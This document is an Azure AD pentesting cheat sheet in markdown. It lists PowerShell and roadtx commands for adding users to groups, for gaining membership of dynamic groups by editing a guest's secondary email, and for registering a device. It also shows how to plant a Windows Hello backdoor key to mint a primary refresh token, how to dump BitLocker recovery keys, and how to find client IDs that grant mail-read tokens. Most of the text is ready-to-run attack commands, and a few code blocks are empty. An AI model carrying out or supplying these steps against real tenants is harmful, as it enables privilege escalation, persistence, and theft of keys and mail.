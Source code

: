 # Azure AD IAM

> Root Management Group (Tenant) > Management Group > Subscription > Resource Group > Resource

* Users
* Devices
* Service Principals (Application and Managed Identities)

## Users

```ps1
```

* Add user to a group
    ```ps1
    $groupid = "<group-id>"
    $targetmember = "<user-id>"
    $group = Get-MgGroup -GroupId $groupid
    $members = Get-MgGroupMember -GroupId $groupid
    New-MgGroupMember -GroupId $groupid -DirectoryObjectid $targetmember
    ```

### Dynamic Group Membership

Get groups that allow Dynamic membership: `Get-AzureADMSGroup | ?{$_.GroupTypes -eq 'DynamicMembership'}`

Rule example : `(user.otherMails -any (_ -contains "vendor")) -and (user.userType -eq "guest")`     
Rule description: Any Guest user whose secondary email contains the string 'vendor' will be added to the group

1. Open user's profile, click on **Manage**
2. Click on **Resend** invite and to get an invitation URL
3. Set the secondary email
    ```powershell
    PS> Set-AzureADUser -ObjectId <OBJECT-ID> -OtherMails <Username>@<TENANT NAME>.onmicrosoft.com -Verbose
    ```

## Devices

### List Devices

```ps1
Connect-AzureAD
Get-AzureADDevice
$user = Get-AzureADUser -SearchString "username"
Get-AzureADUserRegisteredDevice -ObjectId $user.ObjectId -All $true
```


### Join Devices

* [Enroll Windows 10/11 devices in Intune](https://learn.microsoft.com/en-us/mem/intune/user-help/enroll-windows-10-device)


### Register Devices

```ps1
roadtx device -a register -n swkdeviceup
```


### Windows Hello for Business

```ps1
roadtx.exe prtenrich --ngcmfa-drs-auth
roadtx.exe winhello -k swkdevicebackdoor.key
roadtx.exe prt -hk swkdevicebackdoor.key -u <user@domain.lab> -c swkdeviceup.pem -k swkdeviceup.key
roadtx browserprtauth --prt <prt-token> --prt-sessionkey <prt-session-key> --keep-open -url https://portal.azure.com
```


### Bitlocker Keys

```ps1
Install-Module Microsoft.Graph -Scope CurrentUser
Import-Module Microsoft.Graph.Identity.SignIns
Connect-MgGraph -Scopes BitLockerKey.Read.All
Get-MgInformationProtectionBitlockerRecoveryKey -All
Get-MgInformationProtectionBitlockerRecoveryKey -BitlockerRecoveryKeyId $bitlockerRecoveryKeyId
```


# Service Principals


## Other

Lists all the client IDs you can use to get a token with the `mail.read` scope on the Microsoft Graph:

```ps1
roadtx getscope -s https://graph.microsoft.com/mail.read
roadtx findscope -s https://graph.microsoft.com/mail.read
```


## References

* [Pentesting Azure Mindmap](https://github.com/synacktiv/Mindmaps)
